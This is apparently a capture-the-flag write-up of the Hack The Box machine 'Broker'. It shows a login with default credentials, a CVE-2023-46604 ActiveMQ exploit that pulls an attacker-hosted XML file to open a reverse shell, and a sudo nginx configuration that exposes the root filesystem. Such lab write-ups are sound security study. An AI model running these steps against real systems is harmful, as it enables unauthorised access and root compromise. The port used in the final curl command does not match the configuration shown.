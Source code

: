 ```yaml
---
layout: post
title: Broker HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy]
image:
  path: /images/htb/easy/broker/icon.png
---
```


Another easy, retired machine!

**Machine created by:** [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Let's start with a port scan:

```
$ sudo nmap 10.10.11.243 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 07:20 AEDT
Nmap scan report for 10.10.11.243
Host is up (0.014s latency).
Not shown: 2492 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1337/tcp  open  waste
1883/tcp  open  mqtt
5672/tcp  open  amqp
9001/tcp  open  tor-orport
9003/tcp  open  unknown
61613/tcp open  unknown
```

Let's setup an entry in `/etc/hosts`

```
10.10.11.243 broker.htb
```

Visiting [broker.htb](http://broker.htb:80) prompts authentication, which out of instinct I inputted `admin:admin` and it succeeded :p

![Main](/images/htb/easy/broker/main.png)

## Exploitation

Looking for CVEs on ActiveMQ I found [CVE-2023-46604 RCE PoC](https://github.com/evkl1d/CVE-2023-46604) and I setup a listener.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

After cloning the PoC I edited the XML to be my private IP and port, then hosted it locally using `python3 -m http.server`.

I then ran the PoC:

```
$ python3 exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.***.***:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.***.***:8000/poc.xml

[*] Sending packet: 000000711f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001e687474703a2f2f31302e31302e31362e393a383030302f706f632e786d6c
```

And I recieve a response!

```
[07:28:01] 10.10.11.243:49786: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.243:49786
           established
```

## User Flag

I then see I'm the user `activemq` and read the user flag.

```
(remote) activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
c8293361b3c30407ee77164ebe96aa6d
```

And there's the user flag! <mark>c8293361b3c30407ee77164ebe96aa6d</mark>

## Root Flag

Running `sudo -l` shows an entry:
```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Looking at the options for `nginx` we can supply a custom config:

```
$ sudo /usr/sbin/nginx
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```

We can make a new config in `/tmp/newconf.conf` (documentation from [Nginx Docs](https://www.nginx.com/resources/wiki/start/topics/examples/full/)):

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9999;
        root /;
    }
}
```

and then just read the root flag!

```
$ curl -L "http://localhost:1337/root/root.txt"
353a4607eef11ca5b7e6cff7464afd66
```

There's the root flag! <mark>353a4607eef11ca5b7e6cff7464afd66</mark>

![Success](/images/htb/easy/broker/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).
